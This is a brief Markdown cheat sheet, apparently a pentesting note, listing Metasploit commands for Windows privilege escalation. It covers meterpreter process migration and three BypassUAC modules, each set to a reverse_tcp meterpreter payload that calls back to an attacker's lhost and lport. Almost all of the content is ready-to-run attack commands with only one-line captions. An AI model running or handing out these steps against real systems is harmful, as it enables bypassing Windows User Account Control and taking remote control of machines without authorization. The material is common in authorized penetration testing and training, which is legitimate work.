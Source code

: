 # Metasploit

Migrate to a 64-bit process ID architecture in order to perform privilege escalation

```
meterpreter > migrate <pid>
meterpreter > migrate -N explorer.exe
meterpreter > background
```

There are two MSF modules for **BypassUAC**

- This uses a payload as a dropper (this will touch the disk).

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac

msf exploit(windows/local/bypassuac) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac) > set target Windows x64

msf exploit(windows/local/bypassuac) > run lhost=<IP> lport=<PORT> session=<session_id>
```

- This will execute it through memory

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection

msf exploit(windows/local/bypassuac_injection) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection) > set target Windows x64

msf exploit(windows/local/bypassuac_injection) > run lhost=<IP> lport=<PORT> session=<session_id>
```

- Performing Privilege escalation that abuses WinSXS

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection_winsxs

msf exploit(windows/local/bypassuac_injection_winsxs) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection_winsxs) > set target Windows x64

msf exploit(windows/local/bypassuac_injection_winsxs) > run lhost=<IP> lport=<PORT> session=<session_id>
```